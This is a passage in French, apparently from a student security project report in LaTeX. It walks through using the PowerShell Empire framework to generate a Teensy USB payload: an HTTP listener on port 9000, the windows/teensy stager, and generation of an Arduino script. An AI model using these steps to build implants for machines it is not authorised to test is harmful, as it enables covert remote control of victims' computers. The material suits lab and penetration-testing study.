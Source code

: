\subsubsection{Création de payloads}
Nous allons donc utiliser “Empire” pour créer des payloads pour le Teensy, pour ce faire, il faut démarrer “Empire” en tapant: 

\begin{lstlisting}{language=bash}
> powershell-empire
\end{lstlisting}

Ensuite il faut choisir quel listener utiliser, nous allons utiliser le listener “http”, il faut donc taper:

\begin{lstlisting}{language=bash}
> uselistener http
\end{lstlisting}

Ensuite, on peut configurer ce module comme un module Metasploit, ici on va juste changer le port d’écoute en tapant:

\begin{lstlisting}{language=bash}
> set Port 9000
\end{lstlisting}

Puis pour exécuter le listener on tape:

\begin{lstlisting}{language=bash}
> execute
\end{lstlisting}

Après il faut choisir le mode de transmission, ici on va choisir la transmission par un Teensy, il faut donc taper:

\begin{lstlisting}{language=bash}
> usestager windows/teensy
\end{lstlisting}

Puis associer le stagers au listener en tapant:

\begin{lstlisting}{language=bash}
> set Listener http
\end{lstlisting}

Et enfin, générer le payload en tapant:

\begin{lstlisting}{language=bash}
> generate
\end{lstlisting}

Empire devrait afficher que le fichier de script Arduino a bien été créer:

\includegraphics[scale=0.8]{images/SEN_Projet_Image06.png}

